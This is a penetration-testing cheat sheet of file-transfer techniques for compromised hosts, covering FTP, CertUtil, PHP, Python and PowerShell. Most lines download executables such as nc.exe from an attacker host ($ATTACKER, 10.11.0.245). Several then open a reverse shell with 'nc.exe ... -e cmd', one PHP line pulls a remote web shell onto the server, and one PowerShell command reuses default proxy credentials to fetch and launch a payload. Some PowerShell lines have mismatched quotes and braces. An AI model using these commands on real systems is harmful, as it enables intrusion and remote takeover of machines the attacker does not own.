 #### FTP

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```

#### CertUtil

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

#### PHP

```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

#### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

#### HTTP: Powershell

```csharp
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```
